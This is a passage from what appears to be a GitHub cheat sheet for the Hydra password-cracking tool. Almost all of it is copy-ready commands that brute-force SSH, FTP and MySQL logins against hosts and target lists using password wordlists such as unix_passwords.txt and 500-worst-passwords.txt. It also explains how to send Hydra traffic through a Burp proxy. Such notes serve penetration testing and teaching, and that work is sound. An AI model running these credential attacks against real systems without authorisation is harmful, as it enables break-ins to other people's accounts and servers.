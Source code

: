 ```shell
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123
```

```shell
hydra -L logins.txt -P pws.txt -M targets.txt ssh
# tries the users from logins.txt and the paasswords from pws.txt
# on all the machines listed on targests.txt on the ssh port/service
```

## [](https://github.com/gnebbia/hydra_notes#ftp)FTP

```shell
hydra -l root -P 500-worst-passwords.txt 10.10.10.10 ftp
```

```shell
hydra -l user -P passlist.txt ftp://192.168.0.1
```

## [](https://github.com/gnebbia/hydra_notes#mysql-and-other-databases)MySQL and other databases

We can use hydra with many kinds of databases, anyway it is very important for us to check that we have installed hydra with the adequate module to perform a specific bruteforce.

**IMPORTANT**: if we did not install hydra with mysql5 support it will not work, we can check the modules available by issuing a `hydra -h`, if we just see `mysql(v4)` this means that our version will not be compatible with `mysql5`, while if we see `mysql` then our version of hydra will be compatible also with mysql5 databases.

```shell
hydra -L <your_username_file> -P <your_password_file> <IP> mysql -s 3306 -o output.txt
```

notice that this is equivalent to:

```shell
hydra -L <your_username_file> -P <your_password_file> <IP> mysql -o output.txt
 # by default mysql uses port 3306 so we do not need to specify it,
 # anyway it is fundamental to specify it if the mysql port is different
```

## [](https://github.com/gnebbia/hydra_notes#appendix-a-sending-hydra-traffic-through-proxy)Appendix A: Sending Hydra traffic through Proxy

It is often useful to analyze what we are actually doing with hydra, to this purpose we can send the traffic to an intercepting proxy such as Burp.

To do this, we just have to set an environment variable:

```shell
export HYDRA_PROXY=http://127.0.0.1:8080
# or
export HYDRA_PROXY_HTTP=http://127.0.0.1:8080 
```
